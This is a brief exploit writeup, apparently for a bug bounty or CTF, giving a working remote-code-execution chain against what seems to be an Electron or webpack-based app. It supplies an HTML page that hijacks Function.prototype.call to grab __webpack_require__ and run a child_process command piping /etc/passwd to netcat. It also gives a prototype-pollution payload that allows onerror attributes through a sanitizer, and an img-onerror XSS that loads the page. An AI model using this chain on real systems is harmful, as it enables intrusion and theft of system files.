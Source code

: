 ## Writeup

1. Host the below HTML file

```

<html>

<body>

    <h1>Leak Internal module</h1>
<script>
    const originalCall =  Function.prototype.call

    Function.prototype.call = function(... args){ 
    
        console.log(args)
    if( args[3] && args[3].name === '__webpack_require__'){
    
      //console.log(args)
      window.__test= args[3]
      
      args[3]("module")._load("child_process").exec("cat /etc/passwd | nc localhost 4445")
    
    }
    return originalCall.apply(this,args) 
    
    }
    

</script>

</body>

</html>


```

2. Use the below payload for gaining the RCE
keyword: __proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src
append: <img src=1 onerror="document.location='<your html hosted file link>'">

